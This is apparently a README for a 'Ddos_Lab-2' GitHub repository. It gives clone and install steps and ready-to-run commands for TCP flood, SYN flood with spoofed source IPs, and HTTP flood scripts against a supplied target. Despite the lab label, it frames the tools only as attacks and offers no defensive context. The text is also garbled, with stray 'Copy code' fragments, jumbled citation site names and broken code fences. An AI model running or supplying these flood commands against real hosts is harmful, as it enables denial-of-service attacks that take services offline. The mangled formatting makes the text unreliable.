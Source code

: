 ```
git clone https://github.com/Mrglitchoffical/Ddos_Lab-2.git
```

```
cd Ddos_Lab-2

apt install python -y
```

```pip install -r requirements.txt ```

## Attacks

### TCP Flood
```bash
cd attack
python3 tcp_flood.py 192.168.0.100 80 200 0.01
```

### SYN Flood
```bash
Copy code
python3 syn_flood.py -t Your Link
```
50 k SYN packets with random spoofed IPs 
fr.wikipedia.org
tekleo.net
+11
thepythoncode.com
+11
cloudflare.com
+11
.

### HTTP Flood
bash
``` Copy code
python3 http_flood.py http://192.168.0.100 100 60
```
